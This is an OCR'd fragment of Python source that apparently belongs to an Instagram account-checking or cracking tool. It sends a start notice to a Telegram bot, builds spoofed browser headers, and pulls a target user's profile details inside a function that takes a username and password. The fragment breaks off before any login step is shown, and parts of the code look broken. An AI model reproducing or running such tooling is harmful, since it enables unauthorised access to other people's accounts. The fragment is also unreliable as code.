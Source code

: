 j(Z+'*'*35)

print('  ')

import time

timee= time.asctime()

t = time.localtime()

current_time = time.strftime('%F==>%P:%H:%M:%S', t)

print('  ') 

sleep(0.9)

start_msg = requests.post(f"https://api.telegram.org/bot{tok}/sendMessage?chat_id={ID}&text=Alsh Is Start🦉💔").json()

id_msg	=(start_msg['result']["message_id"])

def code_mrko(userQ,password):

	cookie = secrets.token_hex(8)*2

	head = {

        'HOST': "www.instagram.com",

        'KeepAlive' : 'True',

        'user-agent' : "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.73 Safari/537.36",

        'Cookie': 'cookie',

        'Accept' : "*/*",

        'ContentType' : "application/x-www-form-urlencoded",

        "X-Requested-With" : "XMLHttpRequest",

        "X-IG-App-ID": "936619743392459",

        "X-Instagram-AJAX" : "missing",

        "X-CSRFToken" : "missing",

        "Accept-Language" : "en-US,en;q=0.9"

}

	url_id = f'https://www.instagram.com/{userQ}/?__a=1'

	req_id= requests.get(url_id,headers=head).json()

	name    = str(req_id['graphql']['user']['full_name'])

	id    = str(req_id['graphql']['user']['id'])

	followers    = str(req_id['graphql']['user']['edge_followed_by']['count'])

	following    = str(req_id['graphql']['user']['edge_follow']['count'])

	isp    = str(req_id['graphql']['user']['is_private'])
